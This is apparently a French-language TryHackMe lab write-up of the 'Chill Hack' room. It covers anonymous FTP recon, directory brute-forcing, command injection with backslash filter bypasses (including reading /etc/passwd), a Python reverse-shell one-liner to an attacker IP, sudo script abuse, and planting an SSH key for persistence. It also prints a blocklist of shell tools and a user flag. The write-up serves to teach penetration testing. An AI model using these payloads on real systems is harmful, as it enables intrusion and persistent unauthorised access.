---
tags:
  - Linux
  - TryHackMe
  - Facile
  - Nmap
  - FTP
  - Command Injection
  - Steganographie
  - Docker
---

# Chill Hack - TryHackMe

<figure markdown>
  { width="250" }
</figure>

## Informations générales

| | |
|---|---|
| **Plateforme** | TryHackMe |
| **Type** | Offensive / Challenge |
| **Difficulté** | Facile |
| **Thématiques** | Command injection avec bypass de filtre, steganographie, escalade via Docker |
| **Prérequis** | Bases Linux, HTTP, FTP, notions de steganographie, Docker |

## Contexte et objectifs

Cette room propose une chaîne d'exploitation complète : FTP anonyme pour la reconnaissance initiale, injection de commandes sur un formulaire web avec contournement de filtre, stéganographie sur une image pour extraire des credentials, mouvement latéral entre utilisateurs, et escalade finale via l'appartenance au groupe Docker.

!!! info "À propos de cette room"
    Chill Hack est une room polyvalente qui couvre plusieurs domaines en une seule chaîne. Le bypass de filtre par échappement de caractères et la technique d'escalade via Docker sont particulièrement représentatifs de scénarios rencontrés en pentest réel.

## Méthodologie

### Étape 1 : Cartographie des services avec Nmap

La première action est d'identifier les services exposés sur la cible. Nmap avec `-sC` (scripts par défaut) et `-sV` (détection de versions) donne une vue complète des ports ouverts et de ce qui tourne derrière.

```bash
nmap -sC -sV <IP_cible>
```

[](./screen/ChillHack/WindowsTerminal_HJuftcHWWG.png)

Trois ports ouverts :

- **21/tcp** : FTP (vsftpd 3.0.5) - Nmap signale `ftp-anon: Anonymous FTP login allowed` et liste déjà un fichier `note.txt` accessible sans authentification
- **22/tcp** : SSH (OpenSSH 8.2p1)
- **80/tcp** : HTTP (Apache 2.4.41) - titre de la page : "Game Info"

!!! tip "Pourquoi commencer par FTP ?"
    On commence toujours par le service le plus permissif. FTP anonyme est une faiblesse évidente : si un accès sans authentification est possible, c'est la porte d'entrée prioritaire avant même de toucher au web.

### Étape 2 : Enumération FTP anonyme

On exploite cet accès anonyme pour récupérer le fichier note.txt repéré par Nmap. Quand le client FTP demande un nom d'utilisateur, on saisit `anonymous`. Le mot de passe peut être vide.

```bash
ftp <IP_cible>
```

```
Name: anonymous
Password:
```

```bash
ls
get note.txt
```

[](./screen/ChillHack/WindowsTerminal_o37Nojwlap.png)

Une fois le fichier récupéré en local, on le lit :

```bash
cat note.txt
```

[](./screen/ChillHack/WindowsTerminal_x4Ru8vvst4.png)

La note est signée par deux utilisateurs, `Apaar` et `Anurodh` : on dispose de deux noms d'utilisateurs potentiellement valides sur la machine. La note indique aussi qu'il y a "du filtrage sur les chaînes de caractères dans les commandes", un indice potentiel sur ce qu'on pourrait rencontrer sur l'interface web.

### Étape 3 : Enumération web avec Gobuster

Le FTP n'ayant rien donné de plus exploitable, on s'intéresse maintenant au service HTTP repéré à l'étape 1. En visitant `http://<IP_cible>`, on tombe sur une page génériques qui ne présente aucun contenu exploitable visible.

[](./screen/ChillHack/msrdc_a86vVZKwf6.png)

Une page vide en surface ne signifie pas que le serveur n'héberge rien d'autre. On lance une énumération de répertoires pour découvrir des chemins cachés :

```bash
gobuster dir -u http://<IP_cible> -w /usr/share/wordlists/dirb/common.txt -x txt,php
```

!!! tip "Pourquoi ajouter `-x txt,php` ?"
    Sans cette option, Gobuster teste uniquement les chemins purs (ex : `/admin`). En ajoutant `-x txt,php`, il teste aussi `/admin.txt` et `/admin.php`. On ne connaît pas encore la technologie utilisée par le serveur, mais `.php` reste l'extension la plus répandue pour des pages exécutables côté serveur. L'extension `.txt` permet de trouver des fichiers de notes ou de credentials laissés sur le serveur.

[](./screen/ChillHack/WindowsTerminal_Cqsl4dZeGe.png)

Gobuster découvre le répertoire `/secret` (statut 301). On s'y rend dans le navigateur : c'est une page avec un unique champ de saisie et un bouton "Execute".

### Étape 4 : Identification et bypass du filtre de commandes

On commence par vérifier si ce champ exécute réellement des commandes système en testant quelque chose d'inoffensif :

```
id
```

[](./screen/ChillHack/msrdc_lQL9K4VLor.png)

La commande s'exécute et renvoie `uid=33(www-data)` : le serveur exécute nos entrées directement en tant que `www-data`. On tente ensuite `ls` pour lister les fichiers :

[](./screen/ChillHack/msrdc_xHUkGeQJuw.png)

`ls` est bloqué : la page affiche "Are you a hacker?". Il existe un filtre par liste noire qui rejette certaines commandes.

On peut contourner ce filtre avec un backslash pour lister les fichiers du répertoire courant :

```
l\s -la
```

[](./screen/ChillHack/msrdc_8uQBHLJr4u.png)

!!! tip "Comment fonctionne le bypass par backslash ?"
    Le filtre compare l'entrée à une liste de chaînes exactes. En insérant un backslash dans le nom d'une commande (`l\s`, `c\at`), on modifie la chaîne comparée : `l\s` ne correspond pas à `ls`, donc le filtre laisse passer. Mais le shell Linux interprète le backslash comme un caractère d'échappement inoffensif et exécute quand même la commande normalement.

On peut également lire des fichiers arbitraires sur le système :

```
c\at /etc/passwd
```

[](./screen/ChillHack/msrdc_cKEwtiPTPc.png)

Le bypass fonctionne. On peut exécuter n'importe quelle commande avec cette technique, y compris lire le code source de la page elle-même pour confirmer l'étendue du filtre :

```
c\at index.php
```

Le fichier révèle la liste complète des mots bloqués : `ls`, `cat`, `bash`, `sh`, `python`, `python3`, `nc`, `head`, `tail`, `more`, `less`, `php`, `perl`, `rm`.

### Étape 5 : Reverse shell via injection de commandes

Le filtre étant maintenant contourné et bien compris, on peut aller plus loin qu'exécuter des commandes isolées une par une. Interagir via un formulaire web est très limité : pas d'historique, pas d'interactivité, et chaque commande est une requête HTTP indépendante. On cherche à obtenir un shell interactif sur notre machine d'attaque.

`nc` et `bash` sont dans la liste noire, mais `python3` peut être bypassé avec `p\ython3`. On prépare d'abord un listener Netcat sur notre machine :

```bash
nc -lvnp 4444
```

Puis on soumet le reverse shell Python dans le champ de la page `/secret` :

```
p\ython3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<VOTRE_IP>",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```

[](./screen/ChillHack/msrdc_7Zc5Nnvcl5.png)

[](./screen/ChillHack/WindowsTerminal_PxYN7uj3eT.png)

On reçoit une connexion entrante sur notre listener : on dispose maintenant d'un shell `www-data` interactif.

### Étape 6 : Mouvement latéral vers apaar via helpline.sh

Depuis le shell `www-data`, la première chose à vérifier est ce que cet utilisateur peut faire avec des droits élevés. `sudo -l` liste les commandes que l'utilisateur courant est autorisé à exécuter avec sudo, telles que définies dans le fichier `/etc/sudoers` :

```bash
sudo -l
```

[](./screen/ChillHack/WindowsTerminal_vn4z0r1xPj.png)

`www-data` peut exécuter `/home/apaar/.helpline.sh` en tant qu'`apaar` sans mot de passe (`NOPASSWD`). On lit le contenu de ce script pour comprendre ce qu'il fait avant de l'exécuter avec des droits élevés. L'analyse révèle qu'il pose deux questions interactives et exécute directement la réponse utilisateur avec `$msg 2>/dev/null`, sans aucune validation.

On lance le script :

```bash
sudo -u apaar /home/apaar/.helpline.sh
```

A la première invite, on entre n'importe quel nom :

```
Enter the person whom you want to talk with: managone
```

A la seconde invite, au lieu d'un message texte, on entre `/bin/bash` :

```
Hello user! I am managone, Please enter your message: /bin/bash
```

!!! tip "Pourquoi /bin/bash fonctionne ici ?"
    Le script fait littéralement `$msg 2>/dev/null` : il exécute le contenu de la variable comme une commande shell. En tapant `/bin/bash`, on lance un interpréteur bash qui s'exécute avec l'identité d'apaar, puisque le script tourne via `sudo -u apaar`.

[](./screen/ChillHack/WindowsTerminal_So6HSHpag5.png)

`whoami` confirme qu'on est maintenant `apaar`. Le shell est minimal, on le stabilise avec Python :

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

[](./screen/ChillHack/WindowsTerminal_WYYKfel7e1.png)

Ce shell stabilisé reste néanmoins rattaché à la connexion reverse shell initiale : il disparaît si celle-ci tombe, et ne permet pas de rediriger du trafic réseau. Pour la suite, on a besoin d'une session SSH stable avec apaar. Comme on ne connait pas son mot de passe, on dépose notre propre clé publique dans ses `authorized_keys`. Sur notre machine d'attaque, on génère une paire de clés dédiée :

```bash
ssh-keygen -f apaar
```

!!! tip "Pourquoi `-f` ?"
    `-f` spécifie le nom du fichier de sortie pour la paire de clés générée : `apaar` (clé privée) et `apaar.pub` (clé publique). Sans cette option, `ssh-keygen` propose par défaut `~/.ssh/id_rsa`, ce qui écraserait une éventuelle clé personnelle déjà présente.

[](./screen/ChillHack/WindowsTerminal_znuy2ECr8x.png)

[](./screen/ChillHack/WindowsTerminal_cm4uC625PS.png)

On affiche la clé publique pour la copier :

```bash
cat apaar.pub
```

[](./screen/ChillHack/WindowsTerminal_o1f9GqXb0I.png)

Depuis le shell apaar sur la cible, on crée le dossier `.ssh` :

```bash
mkdir -p /home/apaar/.ssh
```

[](./screen/ChillHack/WindowsTerminal_7aOTpgomxk.png)

On y dépose ensuite la clé publique générée à l'étape précédente. Dans la commande ci-dessous, la valeur après `ssh-ed25519` est un exemple à remplacer par le contenu réel affiché par `cat apaar.pub` :

```bash
echo "ssh-ed25519 AAAA...votre_cle_publique..." >> /home/apaar/.ssh/authorized_keys
chmod 700 /home/apaar/.ssh
chmod 600 /home/apaar/.ssh/authorized_keys
```

[](./screen/ChillHack/WindowsTerminal_0iKo7ZKheX.png)

!!! tip "Pourquoi ces deux chmod ?"
    Le démon SSH refuse d'utiliser un dossier `.ssh` ou un fichier `authorized_keys` dont les permissions sont trop ouvertes (accessibles en écriture par le groupe ou par tout le monde). `chmod 700` restreint le dossier au propriétaire uniquement, `chmod 600` fait de même pour le fichier. Sans ça, OpenSSH ignore silencieusement la clé déposée et la connexion par clé échoue.

On donne également les permissions correctes à la clé privée sur notre machine d'attaque, puis on se connecte :

```bash
chmod 600 apaar
ssh -i apaar apaar@<IP_cible>
```

[](./screen/ChillHack/WindowsTerminal_WJgwbSobAC.png)

### Étape 7 : Flag utilisateur

La session SSH stable établie, on en profite pour récupérer le flag utilisateur dans le répertoire d'apaar :

```bash
cat /home/apaar/local.txt
```

[](./screen/ChillHack/WindowsTerminal_zATFtkJTFD.png)

!!! success "Réponse"
    **User flag** → `{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}`

### Étape 8 : Port forwarding et accès au portail interne

Le flag utilisateur obtenu, on poursuit l'exploration de la machine en tant qu'apaar à la recherche d'autres pistes. Depuis notre session SSH, on liste les ports en écoute sur la machine pour détecter des services non exposés publiquement :

```bash
ss -tlnp
```

[](./screen/ChillHack/WindowsTerminal_RQICEWwMGo.png)

